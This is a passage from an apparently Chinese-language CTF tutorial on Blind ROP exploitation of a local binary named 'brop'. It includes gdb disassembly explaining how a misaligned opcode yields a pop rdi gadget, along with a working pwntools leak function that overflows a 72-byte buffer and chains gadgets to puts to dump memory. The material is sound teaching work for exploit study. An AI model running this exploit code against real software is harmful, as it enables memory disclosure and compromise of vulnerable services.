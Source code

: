```plain
[+] Starting local process './brop': pid 122979
[*] Stopped process './brop' (pid 122979)
puts plt address = 0x400555
```

解释为什么 pop\_rdi\_ret = brop\_gadgets + 9：

```plain
gdb-peda$ x /10i 0x4007ba
   0x4007ba <__libc_csu_init+90>:   pop    rbx         #这是 brop_gatgets
   0x4007bb <__libc_csu_init+91>:   pop    rbp
   0x4007bc <__libc_csu_init+92>:   pop    r12
   0x4007be <__libc_csu_init+94>:   pop    r13
   0x4007c0 <__libc_csu_init+96>:   pop    r14
   0x4007c2 <__libc_csu_init+98>:   pop    r15
   0x4007c4 <__libc_csu_init+100>:  ret    
   0x4007c5:    nop
   0x4007c6:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4007d0 <__libc_csu_fini>:  repz ret 

gdb-peda$ x /20i 0x4007ba+9
   0x4007c3 <__libc_csu_init+99>:   pop    rdi         #brop_gatgets+9
   0x4007c4 <__libc_csu_init+100>:  ret    
   0x4007c5:    nop
   0x4007c6:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4007d0 <__libc_csu_fini>:  repz ret 
   0x4007d2:    Cannot access memory at address 0x4007d2

#还是看这两句吧
 4007c2:    41 5f                   pop    %r15
 4007c4:    c3                      retq
 #这是 pop r15  ret 的字节码，但是由于 pop rdi，ret 的字节码是 0x5f 0xc3
 #故地址指向 4007c3 的时候解析出来的就是 pop rdi，与此类似，还有 0x4008A1 处的 pop rsi，pop r15，ret
 #这就是由 opcode 错位产生的
```

6、dump plt 表，用于 leak 所需函数的 got 地址

```plain
from pwn import *
from LibcSearcher import *

def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    p = process('./brop')
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    p.recvuntil('password?\n')
    p.sendline(payload)
    try:
        data = p.recv()
        p.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        p.close()
        return None


##buffer_length = getBufferLength()
buffer_length = 72
```